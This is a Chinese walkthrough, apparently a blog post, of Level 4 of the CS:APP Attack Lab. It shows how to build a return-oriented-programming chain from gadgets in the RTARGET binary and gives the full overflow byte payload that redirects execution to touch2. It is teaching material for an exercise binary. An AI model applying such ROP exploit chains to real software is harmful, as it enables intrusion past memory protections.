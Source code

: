 ### Level 4

#### 要求

针对程序 RTARGET，修改函数 test 调用 getbuf 的返回地址，使其返回 touch2 函数而非 test。

在该实验中，禁止执行栈中的指令，并且栈的地址也会发生变化。因此，Level 1~3 的做法失效了。

#### 做法

在该实验中通过找出已有指令的字节序列作为**工具片段（gadget）**，其原理如下图所示。通过工具片段来解决无法执行栈中指令的问题。

{% asset_img  gadget.png [图 3. 工具片段的执行序列] %}

每个工具片段以 ret(编码 0xc3) 结尾，将工具片段地址保存在栈上，ret 依次解栈来执行下一条工具片段。

该实现限制了指令集 movq, popq, ret 和 nop。

该实验的思路比较清晰：通过 popq 从栈中取数据，然后使用将数据保存到相应的寄存器（如 %rdi）即可。

使用 `disas /r getval_142` 依次查看每个工具函数的指令序列。

其中，关键的工具函数有 addval_273 和 addval_219：

```assembly
Dump of assembler code for function addval_273:
   0x4019a0 <+0>:     8d 87 48 89 c7 c3       lea ,%eax
   0x4019a6 <+6>:     c3      retq
End of assembler dump.

Dump of assembler code for function addval_219:
   0x4019a7 <+0>:     8d 87 51 73 58 90       lea -0x6fa78caf(%rdi),%eax
   0x4019ad <+6>:     c3      retq
End of assembler dump.
```

在 addval_273 中可以提取指令序列：

```assembly
0x4019a2: 48 89 c7		movq %rax, %rdi
0x4019a5: c3			retq
```

在 addval_219 中可以提取指令序列：

```assembly
0x4019ab: 58			popq %rax
0x4019ac: 90			nop
0x4019ad: c3			retq
```

显然，通过工具片段 0x4019ab 提取 cookie 到 %rax，然后使用 0x4019a2 将 cookie 转移到 %rdi，完成参数构造。

RTARGET 的输入字节序列：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```
